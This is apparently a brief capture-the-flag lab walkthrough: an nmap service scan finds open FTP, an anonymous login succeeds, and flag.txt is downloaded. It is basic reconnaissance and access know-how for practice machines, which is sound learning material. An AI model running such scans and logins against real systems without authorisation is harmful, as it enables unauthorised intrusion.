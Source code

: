 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 21/tcp - open - ftp

2. Connect to the machine via "ftp"
```bash
ftp [ip machine]
	Name: Anonymous
	Password: [random]
```
--> **MACHINE PWNED!** 

3. Capture the flag
```bash
ftp --> get flag.txt
```
--> Transfer completed!